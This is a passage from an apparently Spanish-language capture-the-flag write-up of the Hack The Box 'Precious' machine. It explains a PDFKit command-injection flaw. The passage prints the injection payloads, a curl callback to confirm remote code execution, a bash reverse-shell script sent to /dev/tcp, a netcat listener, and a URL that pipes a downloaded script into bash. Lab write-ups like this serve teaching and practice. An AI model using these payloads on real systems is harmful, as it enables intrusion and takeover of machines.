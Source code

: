 ```bash
# Ejemplo ejecutando el comando whoami en una cadena
hola `whoami`, como estas?
```

* [Google: command substitution string](https://duckduckgo.com/?t=ffab&q=command+substitution+string&ia=web).

**Entonces** (si la URL contiene esos dos ítems), hará que la función `PDFKit.new` (que es la que renderiza el **PDF**) además de ejecutar el comando para generar el **PDF**, ***<u>ejecute</u> el nuestro***.

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/precious/513google_gif_pingumanSurprised.gif" style="width: 60%;"/>

Según los PoC que vemos, podemos intentar algo tal que así:

```txt
Se le envia -----------> http://example.com/?name=#{'%20`sleep 5`'}
Y PDFKit renderiza: ---> http://example.com/?name=%20`sleep 5`

Por lo que *sleep 5* es ejecutado en el sistema.
```

Cambiando el payload por algo funcional (apoyados de nuestro servidor web pensaremos que la máquina tiene instalado `curl` y haremos que nos envíe una petición, si llega, confirmamos **RCE**):

```txt
http://10.10.14.108:8000/index.html?estoespajugar=#{'%20`curl http://10.10.14.108:8000/asdfasdfasdfasdfasdfasd`'}
```

Le pasamos esa URL a la web, damos click en **Submit** y en nuestro servidooooor:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/precious/513bash_phpServer8000_req_with_asdf_RCEfound.png" style="width: 100%;"/>

OBTENEMOS LA PETICIÓN PROVENIENTE DE LA IP **10.10.11.189** YYYYYY confirmamos **<u>ejecución remota de comandoooos</u>**!

Hagamos que el sistema remoto nos envíe una shell, creamos archivo con el contenido que queremos ejecutar:

```bash
cat hola.sh 
```

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.108/4433 0>&1
```

Con esto le indicamos que envíe una `bash` (una terminal) al puerto `4433` de la dirección `10.10.14.108`.

Nos ponemos en escucha por el puerto **4433** (`nc -lvp 4433`) y enviamos la siguiente URL:

```txt
http://10.10.14.108:8000/index.html?estoespajugar=#{'%20`curl http://10.10.14.108:8000/hola.sh|bash`'}
```
